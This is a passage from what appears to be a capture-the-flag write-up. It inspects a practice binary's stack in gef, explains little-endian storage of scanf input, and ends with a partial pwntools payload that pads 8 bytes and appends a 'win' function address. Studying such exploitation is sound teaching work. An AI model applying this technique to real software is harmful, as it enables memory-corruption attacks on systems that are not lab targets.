Unfortunately, a pointer to `win` is not stored anywhere in the stack.

This means we need to somehow add the address into the stack.

This usually implies we need to input it as a string through `scanf`.

Let's try inputting a string of "ABCDEFGHIJKLMNOPQRSTUVWXYZ" to see what happens to the array.

```md
gef➤  continue
ABCDEFGHIJKLMNOPQRSTUVWXYZ
...

0x7fffffffdd50: 0x00007fffffffdf30      0x0000555555556062 (Banana)
...
0x7fffffffde10: 0x000055555555611b      0x0000555555556130 (Zucchini)
0x7fffffffde20: 0x4847464544434241      0x504f4e4d4c4b4a49 <*>Check here</*>
0x7fffffffde30: 0x5857565554535251      0x00007ffff7005a59
0x7fffffffde40: 0x0000555555556069      0xe917ca99f246e100
...
```

As we can see, the string is stored in the stack starting from `0x7fffffffde20`.
Interestingly, the string is stored in **reverse order**, which means it uses **little-endian** format.

This means if we want to store the address of `win` in the stack, we need to input it in reverse order.

Before that, we still need to know what would happen when we overwrite this string with something like `"swap"`

Let's try that!

```md
gef➤  continue
swap
gef➤  x/80gx 0x7fffffffdd50
...
0x7fffffffde20: 0x48474600776f6873      0x504f4e4d4c4b4a49
0x7fffffffde30: 0x5857565554535251      0x00007ffff7005a59
0x7fffffffde40: 0x0000555555556069      0xe917ca99f246e100
...
```

Hmm, the string is now changed to `0x48474600776f6873`, which is `HGF\\x00paws` in ASCII.

The `\\x00` is a null byte, which terminates the string. However, the rest of the string is still intact.

This means if we want to input the address of `win`, we need to pad it with any characters until it reaches 8 bytes, then insert the address in little-endian format.

```py
from pwn import *

win_address = ... # Put the win address here

payload = "A" * 8
payload += p64(win_address)
```
